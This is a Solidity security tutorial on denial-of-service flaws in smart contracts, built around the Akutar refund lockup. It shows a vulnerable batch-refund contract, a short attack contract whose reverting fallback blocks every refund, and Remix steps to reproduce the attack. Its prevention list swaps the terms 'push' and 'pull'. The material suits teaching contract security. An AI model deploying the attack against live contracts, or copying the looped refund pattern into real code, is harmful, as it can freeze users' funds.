 ```yaml
---
title: S09. Denial of Service (DoS)
tags:
    - solidity
    - security
    - fallback
---
```


# WTF Solidity S09. Denial of Service (DoS)

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will introduce the Denial of Service (DoS) vulnerability in smart contracts and discuss methods for prevention. The NFT project Akutar once suffered a loss of 11,539 ETH, worth $34 million at the time, due to a DoS vulnerability.

## DoS

In Web2, a Denial of Service (DoS) attack refers to the phenomenon of overwhelming a server with a large amount of junk or disruptive information, rendering it unable to serve legitimate users. In Web3, it refers to exploiting vulnerabilities that prevent a smart contract from functioning properly.

In April 2022, a popular NFT project called Akutar raised 11,539.5 ETH through a Dutch auction for its public launch, achieving great success. Participants who held their community Passes were supposed to receive a refund of 0.5 ETH. However, when they attempted to process the refunds, they discovered that the smart contract was unable to function correctly, resulting in all funds being permanently locked in the contract. Their smart contract had a DoS vulnerability.

![](./img/S09-1.png)

## Vulnerability Example

Now let's study a simplified version of the Akutar contract called `DoSGame`. This contract has a simple logic: when the game starts, players call the `deposit()` function to deposit funds into the contract, and the contract records the addresses of all players and their corresponding deposits. When the game ends, the `refund()` function is called to refund ETH to all players in sequence.

```solidity
// SPDX-License-Identifier: MIT
// english translation by 22X
pragma solidity ^0.8.21;

// Game with DoS vulnerability, players deposit money and call refund to withdraw it after the game ends.
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;
    
    // All players deposit ETH into the contract
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Record the deposit
        balanceOf[msg.sender] = msg.value;
        // Record the player's address
        players.push(msg.sender);
    }

    // Game ends, refund starts, all players receive refunds one by one
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Loop through all players to refund them
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

The vulnerability here lies in the `refund()` function, where a loop is used to refund the players using the `call` function, which triggers the fallback function of the target address. If the target address is a malicious contract and contains malicious logic in its fallback function, the refund process will not be executed properly.

```
(bool success, ) = player.call{value: refundETH}("");
```

Below, we write an attack contract where the `attack()` function calls the `deposit()` function of the `DoSGame` contract to deposit funds and participate in the game. The `fallback()` fallback function reverts all transactions sending ETH to this contract, attacking the DoS vulnerability in the `DoSGame` contract. As a result, all refunds cannot be executed properly, and the funds are locked in the contract, just like the over 11,000 ETH in the Akutar contract.

```solidity
contract Attack {
    // DoS attack during refund
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participate in the DoS game and deposit
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reproduce on `Remix`

**1.** Deploy the `DoSGame` contract.
**2.** Call the `deposit()` function of the `DoSGame` contract to make a deposit and participate in the game.
![](./img/S09-2.png)
**3.** At this point, if the game is over and `refund()` is called, the refund will be executed successfully.
![](./img/S09-3.jpg)
**3.** Redeploy the `DoSGame` contract and deploy the `Attack` contract.
**4.** Call the `attack()` function of the `Attack` contract to make a deposit and participate in the game.
![](./img/S09-4.jpg)
**5.** Call the `refund()` function of the `DoSGame` contract to initiate a refund, but it fails to execute properly, indicating a successful attack.
![](./img/S09-5.jpg)

## How to Prevent

Many logic errors can lead to denial of service in smart contracts, so developers need to be extremely cautious when writing smart contracts. Here are some areas that require special attention:

1. Failure of external contract function calls (e.g., `call`) should not result in the blocking of important functionality. For example, removing the `require(success, "Refund Fail!");` statement in the vulnerable contract allows the refund process to continue even if a single address fails.
2. Contracts should not unexpectedly self-destruct.
3. Contracts should not enter infinite loops.
4. Parameters for `require` and `assert` should be set correctly.
5. When refunding, allow users to claim funds from the contract (push) instead of sending funds to users in batch (pull).
6. Ensure that callback functions do not interfere with the normal operation of the contract.
7. Ensure that the main business of the contract can still function properly even when participants (e.g., `owner`) are absent.

## Summary

In this lesson, we introduced the denial of service vulnerability in smart contracts, which caused the Akutar project to lose over 10,000 ETH. Many logic errors can lead to DoS attacks, so developers need to be extremely cautious when writing smart contracts. For example, refunds should be claimed by users individually instead of being sent in batch by the contract.
